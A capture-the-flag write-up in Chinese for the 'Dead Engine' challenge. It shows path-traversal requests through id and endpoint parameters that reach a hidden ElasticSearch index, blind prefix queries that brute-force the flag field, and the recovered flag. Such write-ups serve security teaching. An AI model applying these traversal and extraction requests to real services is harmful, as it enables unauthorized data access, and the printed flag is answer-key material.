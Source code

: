 # Dead Engine

這題從錯誤訊息可以知道背後是`ElasticSearch`

塞`id=../../*`可以leak能用的目標:

```
{
   "secr3td4ta":{
      "aliases":{

      },
      "mappings":{
         "fl4g?":{
            "properties":{
               "flag":{
                  "type":"text",
                  "fields":{
                     "keyword":{
                        "type":"keyword",
                        "ignore_above":256
                     }
                  }
               },
               "title":{
                  "type":"text",
                  "fields":{
                     "keyword":{
                        "type":"keyword",
                        "ignore_above":256
                     }
                  }
               }
            }
         }
      },
      "settings":{
         "index":{
            "creation_date":"1555086694187",
            "number_of_shards":"5",
            "number_of_replicas":"1",
            "uuid":"O3sdvALmTM6xGn6kcqgglQ",
            "version":{
               "created":"5061699"
            },
            "provided_name":"secr3td4ta"
         }
      }
   },
   "articles":{
      "aliases":{

      },
      "mappings":{
         "articles":{
            "properties":{
               "access":{
                  "type":"text",
                  "fields":{
                     "keyword":{
                        "type":"keyword",
                        "ignore_above":256
                     }
                  }
               },
               "category":{
                  "type":"text",
                  "fields":{
                     "keyword":{
                        "type":"keyword",
                        "ignore_above":256
                     }
                  }
               },
               "date":{
                  "type":"text",
                  "fields":{
                     "keyword":{
                        "type":"keyword",
                        "ignore_above":256
                     }
                  }
               },
               "downloadLink":{
                  "type":"text",
                  "fields":{
                     "keyword":{
                        "type":"keyword",
                        "ignore_above":256
                     }
                  }
               },
               "price":{
                  "type":"text",
                  "fields":{
                     "keyword":{
                        "type":"keyword",
                        "ignore_above":256
                     }
                  }
               },
               "rating":{
                  "type":"float"
               },
               "title":{
                  "type":"text",
                  "fields":{
                     "keyword":{
                        "type":"keyword",
                        "ignore_above":256
                     }
                  }
               }
            }
         }
      },
      "settings":{
         "index":{
            "creation_date":"1555086694281",
            "number_of_shards":"5",
            "number_of_replicas":"1",
            "uuid":"S-tkOWJYRxeVncmgUI1BLA",
            "version":{
               "created":"5061699"
            },
            "provided_name":"articles"
         }
      }
   }
}
```

可以看到有`secr3td4ta`，裡面有`flag`

再來就是想辦法撈他

觀察一下`endpoint`參數，可以發現他其實是把這個參數mapping到一個URL上，再去Request抓資料回來Parse

(例如可以簡單塞個`endpoint=/search`，就會把完整路徑噴回來給你: `Error while JSON decoding:No handler found for uri [/articles/articles/_/search?q=*] and method [GET]`)

所以只要`q=*&endpoint=/../../../secr3td4ta/_search`

```
[{"title":"Flag Is Here, Grab it :)","_id":"AWoSY9h7LaY_ZeX1ck78","_type":"fl4g?","downloadLink":null}]
```

但沒有flag，大概是因為他只Parse原本`articles`裡才有的欄位，而`flag`欄位就沒被Parse出來

這裡可以用類似Boolean based的概念去撈

`endpoint=/../../../secr3td4ta/_search&q=flag:*`

`endpoint=/../../../secr3td4ta/_search&q=flag:2*`

`endpoint=/../../../secr3td4ta/_search&q=flag:2A*`

`endpoint=/../../../secr3td4ta/_search&q=flag:2A6*`

...

`endpoint=/../../../secr3td4ta/_search&q=flag:2A6E210F10784C9A0197BA164B94F25D`

這邊只要有匹配到，就會顯示資料，沒匹配就沒東西

暴力踹一波就能把flag欄位的內容撈出來

`ASIS{2a6e210f10784c9a0197ba164b94f25d}`
















